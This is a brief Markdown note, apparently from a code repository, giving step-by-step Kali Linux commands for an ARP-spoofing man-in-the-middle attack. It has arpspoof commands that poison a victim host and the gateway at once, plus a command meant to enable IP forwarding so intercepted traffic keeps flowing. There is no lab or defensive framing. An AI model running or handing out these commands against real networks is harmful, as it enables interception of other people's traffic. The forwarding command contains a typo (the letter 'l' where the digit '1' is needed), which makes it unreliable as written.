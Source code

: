 # Change arp using buildIn tool in kali linux

# to print the route table
`route -n`

# to print the arp table
`arp -a`
 
# both command to fool victim and gateway should run simultaneously
# command to fool victim
# command  -i(interface) -t(target) (target ip) (gateway ip)
`arpspoof -i eth0 -t 192.168.12.102 192.168.12.1`

# command to fool gateway
`arpspoof -i eth0 -t 192.168.12.1 192.168.12.102`

# by default port forwarding is disabled in linux in order to allow packets to flow from your machine
`echo l > /proc/sys/net/ipv4/ip_forward`